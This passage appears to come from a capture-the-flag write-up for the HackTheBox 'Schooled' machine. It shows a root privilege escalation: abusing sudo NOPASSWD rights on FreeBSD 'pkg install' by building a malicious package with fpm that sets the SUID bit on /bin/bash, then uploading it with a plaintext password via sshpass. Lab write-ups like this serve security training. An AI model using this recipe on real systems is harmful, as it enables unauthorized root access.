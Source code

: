 Cracked hash worked for user "jamie" on ssh login.

User "jamie" have sudo right to run `/usr/sbin/pkg` as any user on the box with NOPASSWD.
```bash
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

user "jamie" can install any freebsd package with sudo.

found exploit from [gtfobins](https://gtfobins.github.io/gtfobins/pkg/), *this is same as `sudo snap` on [armageddon box](../armageddon/README.md#snap-install-with-sudo)*.


Create milicious package from fpm.
```bash
COMMAND='chmod +s /bin/bash'
TF=$(mktemp -d)
echo "$COMMAND" > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

If `fpm` is not install
```bash
sudo gem install --no-document fpm
sudo apt-get install squashfs-tools
```

upload package with scp
```bash
sshpass -p '!QAZ2wsx' scp ./x-1.0.txz jamie@schooled.htb:/home/jamie/pkg
```

And finally run
```bash
sudo -u root /usr/sbin/pkg install -y --no-repo-update ./x-1.0.txz
```

![](/assets/img/posts/schooled/schooled-rooted.png)